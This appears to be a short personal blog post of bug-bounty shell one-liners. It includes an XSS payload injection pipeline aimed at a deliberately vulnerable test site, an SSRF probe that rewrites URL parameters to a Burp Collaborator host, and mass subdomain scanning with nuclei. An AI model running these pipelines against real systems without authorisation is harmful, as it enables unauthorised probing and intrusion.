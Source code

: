 ```yaml
---
title: "HelloWorld"
date: 2023-07-23T16:51:27-07:00
draft: false
---
```


### Let's see how this works.

### Notes.

```
~%$: echo testphp.vulnweb.com | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'
```

### How about an ssrf one:
```
~%$: findomain -t DOMAIN -q | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://YOUR.burpcollaborator.net
```

### ~~Scratch this.~~:
```
~%$: xargs -a domain -I@ -P500 sh -c 'shuffledns -d "@" -silent -w words.txt -r resolvers.txt' | httpx -silent -threads 1000 | nuclei -t /root/nuclei-templates/ -o re1
```
### ~~Randonm git.~~:
```
git status | grep 'deleted:' | sed 's/deleted:    //' | xargs git rm
```